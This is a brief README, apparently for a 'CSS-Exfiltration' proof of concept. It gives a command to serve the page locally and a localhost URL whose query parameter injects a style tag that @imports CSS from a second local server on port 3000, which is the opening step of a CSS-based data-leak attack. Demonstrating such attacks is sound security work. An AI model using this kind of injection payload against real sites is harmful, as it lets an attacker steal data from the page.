 # CSS-Exfiltration

Run the code with:
```
python3 -m http.server
```
Open the link with exploit:
```
http://localhost:8000/?input=%3Ch1%3E%3C/h1%3E%3Cstyle%3E@import%20%27//localhost:3000/start%27;%3C/style%3E
```